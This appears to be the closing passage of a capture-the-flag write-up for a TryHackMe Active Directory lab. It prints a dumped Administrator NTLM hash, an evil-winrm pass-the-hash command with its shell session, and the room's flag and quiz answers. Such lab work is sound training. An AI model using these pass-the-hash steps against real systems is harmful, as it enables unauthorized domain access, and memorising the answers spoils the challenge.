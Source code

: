 ```
```

`DRSUAPI`

2. What is the Administrators NTLM hash?

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::`

`0e0363213e37b94221497260b0bcb4fc`

3. What method of attack could allow us to authenticate as the user without the password?

`pass the hash`

4. Using a tool called Evil-WinRM what option will allow us to use a hash?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ evil-winrm -i 10.10.225.245 -u administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

`-H`

## Task 8 Flags

Submit the flags for each user account. They can be located on each user's desktop.

If you enjoyed this box, you may also enjoy my [blog post](https://blog.spookysec.net/kerberos-abuse/)!

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  11:39 AM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd ..\..\
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/17/2020   4:04 PM                a-spooks
d-----        9/17/2020   4:02 PM                Administrator
d-----         4/4/2020  12:19 PM                backup
d-----         4/4/2020   1:07 PM                backup.THM-AD
d-r---         4/4/2020  11:19 AM                Public
d-----         4/4/2020  12:18 PM                svc-admin


```